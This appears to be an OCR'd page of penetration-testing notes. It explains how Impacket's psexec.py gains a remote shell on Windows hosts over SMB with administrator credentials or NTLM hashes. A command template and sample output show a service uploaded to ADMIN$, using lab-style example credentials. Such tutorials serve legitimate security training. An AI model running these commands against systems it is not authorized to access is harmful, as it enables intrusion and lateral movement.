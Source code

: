 Two popular tools provided by Impacket for gaining access to a Windows machine remotely are `psexec.py` and `wmiexec.py`. Both tools can be used to execute commands or spawn shells on remote Windows hosts, particularly when you have local administrator credentials.

---

##### `psexec.py`
**`psexec.py`** mimics the behavior of the traditional `psexec` tool from Sysinternals. It leverages the **SMB protocol** to execute commands on a remote Windows machine. When using this tool, a service is installed on the target host to execute commands and then removed once the session is complete.

###### How `psexec.py` Works:
- **Service-based execution**: The tool installs a temporary service on the remote host to execute commands - a randomly named executable is uploaded to the `ADMIN$` share
- **Interactive shell**: By default, `psexec.py` provides an interactive shell where you can execute commands on the remote machine.
- **Credential requirements**: It requires valid credentials (username, password, or NTLM hash) with administrative privileges on the target machine.

###### Example Command (using local administrator credentials):
```bash
psexec.py <domain>/<username>:<password>@<target-ip>
```
- `<domain>`: The domain or workgroup name of the target system (can be omitted if not applicable).
- `<username>`: The username of an account with local administrator privileges.
- `<password>`: The password for the account (or NTLM hash can be used).
- `<target-ip>`: The IP address of the target machine.

Once the command is run, you will have an interactive shell on the remote host.

##### Example Output:
```bash
psexec.py MYDOMAIN/forend:Klmcargo2@192.168.1.10
[*] Requesting shares on 192.168.1.10.....
[*] Found writable share ADMIN$
[*] Uploading file FMwJcGiH.exe
[*] Opening SVCManager on 192.168.1.10.....
[*] Creating service RMEZ on 192.168.1.10.....
[*] Starting service RMEZ.....
[!] Press help for extra shell commands
C:\Windows\system32>
```
Here, `psexec.py` installs a service, starts it, and then spawns an interactive command shell.

![ad71](/images/71.png)
